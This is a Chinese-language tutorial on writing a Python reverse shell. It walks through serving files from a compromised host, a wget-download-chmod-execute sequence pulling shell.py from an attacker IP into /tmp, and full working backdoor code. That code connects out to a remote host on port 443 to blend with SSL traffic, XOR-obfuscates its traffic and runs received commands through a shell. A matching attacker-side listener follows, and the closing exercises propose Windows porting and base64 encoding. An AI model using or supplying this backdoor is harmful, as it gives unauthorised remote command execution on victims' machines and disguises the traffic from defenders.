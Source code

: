 # 反向 shell

## 反向 shell

这篇教程将会教你使用 Python 编写一个反向 shell，首先我们先演示使用 Python 如何利用 web 服务器的功能，把文件从另一台主机传送过来。我们假设你有一台傀儡主机，你现在想下载傀儡机上面的的文件。那么你就可以使用 shell(或 meterpreter)去访问这台傀儡机，你可以通过一行 Python 代码把傀儡机建立成为一个 web 服务器，然后下载傀儡机上面的文件.

创建一个 python HTTP 服务器可以直接使用 python 的内建函数"SimpleHTTPServer"来创建，你可以使用'-m'参数直接在命令行调用模块，创建的服务器默认是监听的 8000 端口，但是你可以指定端口，直接在'SimpleHTTPServer'后面跟一个端口参数:

```
python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 80 ... 
```

我们假设你没有防火墙去阻止你的连接，那么你是可以请求到这服务器的数据。你可以在任何目录里面去启动 Python HTTP 服务器，这样你就能够通过浏览器或者是远程客户端来访问这个目录。这里有一个简单的例子告诉你使用 wget 工具去获取文件,但是有些时候就会经常发现你根本没有权限在当前目录写入文件并且初始化这个脚本，但是你可以改变脚本执行的目录，下面这个例子就演示了把脚本在/tmp 目录下面执行：

```
#使用-O 参数，把文件保存在其他目录- /tmp/ 一般可写
wget -O /tmp/shell.py http://<attacker_ip>/shell.py

#修改权限
chmod a+x /tmp/shell.py

# 使用 file 命令检查文件是否正确
file /tmp/shell.py

#执行脚本
/usr/bin/python /tmp/shell.py 
```

现在让我看一个实际的后门代码。我们将会使用 socket，subprocess 和 sys 模块，我非常的喜欢 subprocess 模块因为它允许你能储存 STDOUT 给一个变量，然后在脚本中的其他地方使用，然后新增一个传输层，通过 443 端口来传输文件，这个端口经常用在传输 ssl 的数据可以很容易的混淆数据:

```
#!/usr/bin/python

import socket,subprocess,sys

RHOST = sys.argv[1]
RPORT = 443
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

while True:
     # 从 socket 中接收 XOR 编码的数据
     data = s.recv(1024)

     # XOR the data again with a '\x41' to get back to normal data
     en_data = bytearray(data)
     for i in range(len(en_data)):
       en_data[i] ^=0x41

     # 执行解码命令，subprocess 模块能够通过 PIPE STDOUT/STDERR/STDIN 把值赋值给一个变量
     comm = subprocess.Popen(str(en_data), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
     STDOUT, STDERR = comm.communicate()

     # 输出编码后的数据并且发送给指定的主机 RHOST
     en_STDOUT = bytearray(STDOUT)
     for i in range(len(en_STDOUT)):
       en_STDOUT[i] ^=0x41
     s.send(en_STDOUT)
s.close() 
```

上面的代码中有些概念已经在 0x1 中介绍过了，但是除了之前的使用 socket 创建一个连接之外，我们通过 subprocess 模块执行了一个命令，subprocess 模块非常的方便，它允许你通过 STDOUT/STDERR 命令直接把值赋值给一个变量，然后我们可以通过命令把输出的进行编码然后通过 socket 网络发送出去。使用 OXR 的好处就是你能够很容易编码你要发送过去的数据，然后通过相同的密钥来解码返回的数据，最后解码后的数据可以以明文的形式去执行命令。

现在为了利用好这个后门，我们需要一个监听脚本并且解码后端传输过来的数据，让我们通过明文很清晰的看清楚返回的数据。下面我们将要设计一个监听器。来获取反向 shell 的数据，并且能够对于输入／输出的进行解码/编码，为了能够在终端上面能够很清晰的看出来，所以需要使用 XOR 编码:

```
import socket 

s= socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(("0.0.0.0", 443))
s.listen(2)
print "Listening on port 443... "
(client, (ip, port)) = s.accept()
print " Received connection from : ", ip

while True:
 command = raw_input('~$ ')
 encode = bytearray(command)
 for i in range(len(encode)):
   encode[i] ^=0x41
 client.send(encode)
 en_data=client.recv(2048)
 decode = bytearray(en_data)
 for i in range(len(decode)):
   decode[i] ^=0x41
 print decode

client.close()
s.close() 
```

这章的例子非常有趣，对于学习信息安全的朋友都喜欢 shell，大家可以对代码做点修改让这个脚本也能够在 window 上面也能够正常运行，最后大家可以使用 base64 来代替 XOR 进行编码与解码，这些练习有助于你更加灵活的使用 python.